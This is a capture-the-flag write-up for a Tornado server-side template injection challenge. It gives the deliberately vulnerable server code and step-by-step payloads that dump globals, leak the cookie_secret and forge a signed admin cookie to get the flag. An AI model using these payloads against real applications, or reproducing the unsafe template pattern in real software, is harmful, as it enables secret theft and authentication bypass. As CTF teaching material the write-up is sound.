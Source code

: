 # The Usual Suspects

Author: [SrishtiGohain](https:github.com/SrishtiGohain)

## Description

This is a simple Server Side Template Injection challenge.

## Requirements

- Python
- tornado

## Sources

```
You may think I walk with no 'name' because it can be changed whenever I want. I am a 'person' whose 'secret' can never be found. Can you find this 'person's 'secret'?
(I love you 8000.)
```

## Exploit

```python
#SOURCE CODE: server.py
import tornado.template
import tornado.ioloop
import tornado.web
import os, pwd, grp

def drop_privileges(uid_name='ctf', gid_name='ctf'):
    running_uid = pwd.getpwnam(uid_name).pw_uid
    running_gid = grp.getgrnam(gid_name).gr_gid

    os.setgroups([])

    os.setgid(running_gid)
    os.setuid(running_uid)

    old_umask = os.umask(0o077)


flag = open('rf.txt').read()
secret = open('cs.txt').read()

TEMPLATE = '''
<html>
 <head><title> 🐱‍👤Hello Hacker</title></head>
 <body style="background: #00FFFF;text-align:center;">
 <h1 style="font-size:5rem;"> 🐱‍👤 The Usual Suspects 🐱‍👤 </h1>
 <br />
 <h2 style="font-size:4rem;"> You Have Arrived! </h2>
 <br />
 <p style="font-size:2rem;"> 
 <p>Hey, wanna know how I rate some ice-cream flavours?</p>
 <form method="GET"  action='/'>
  <select id="icecream" name="icecream">
      <option value="{{!chocolate}}">chocolate</option>
      <option value="{{!vanilla}}">vanilla</option>
      <option value="{{!butterscotch}}">butterscotch</option>
  </select>
  <input type="submit"></input>
 </form>
 <p>FOO</p>
 </p>
 <br/> <br/>
 <p style="text-align:center; font-size:2rem;">
 Oh I heard you're looking for my secret. <br>
 <b>{{secret}}</b>
 </p>
 </body>
</html>
'''

class MainHandler(tornado.web.RequestHandler):
 
    def get(self):

        chocolate = "My fav!! 10/10, would eat again"
        vanilla = 'Vanilla is good too, but could be better, i give it a 7/10'
        butterscotch = 'Yuck, who even likes that. 1/10'
        
        template_data = TEMPLATE.replace("FOO",self.get_argument('icecream',''))
        t = tornado.template.Template(template_data)
        secret = "Unfortunately, you aren't worthy"
        if self.get_secure_cookie("admin")==b"true":
            secret = flag
        else:
            self.set_secure_cookie("admin", "false")
        self.write(t.generate(chocolate=chocolate,vanilla=vanilla, butterscotch=butterscotch, application=application, secret=secret))



application = tornado.web.Application([
    (r"/", MainHandler)
], debug=True, static_path=None, template_path=None, cookie_secret=secret)

if __name__ == '__main__':
    drop_privileges()
    application.listen(9999)
    print("Listening :)")
    tornado.ioloop.IOLoop.instance().start()
```
<br />

- The server script runs on `http://chall.csivit.com:30279/`. Input is taken as the "icecream" value. 
 
- A secure cookie is being set and compared to print a flag value. In tornado, signed cookies contain the encoded value of the cookie
  alongwith a timestamp and an HMAC signature. Such cookies are supported by the set_secure_cookie and get_secure_cookie methods which require a specific secret key: cookie_secret.

- Upon visiting `http://chall.csivit.com:30279/?icecream={{globals()}}`, you see something useful:

```
'application': <tornado.web.Application object at 0x7f2976579750>,
```

- You now know that the name of the variable `tornado.web.Application(...)` is `application`.

- Run the server script with the exploit payload `http://chall.csivit.com:30279/?icecream={{application.settings["cookie_secret"]}}` to get the cookie_secret value `MangoDB` displayed on the website.
  
- Replace the value of the secure cookie `admin` to the required comparison value `true` to obtain a signed cookie on the browser. Now, replace the signed cookie generated upon running the server script with the one obtained after the secure cookie value was set to `true`. This results in a cookie which looks like the following. Note `dHJ1ZQ==` is base64 for `true`.

```
"2|1:0|10:1594808471|5:admin|8:dHJ1ZQ==|5da7d1e446451e825e42001e7f07360e2e2e77c9c68b14fca1a517259712cdac"
```

- Upon reloading the server script, the text on the website would change from `Unfortunately, you aren't worthy` to the flag value:

```
csictf{h3r3_i_4m}
```


The flag is:
```
csictf{h3r3_i_4m}
```
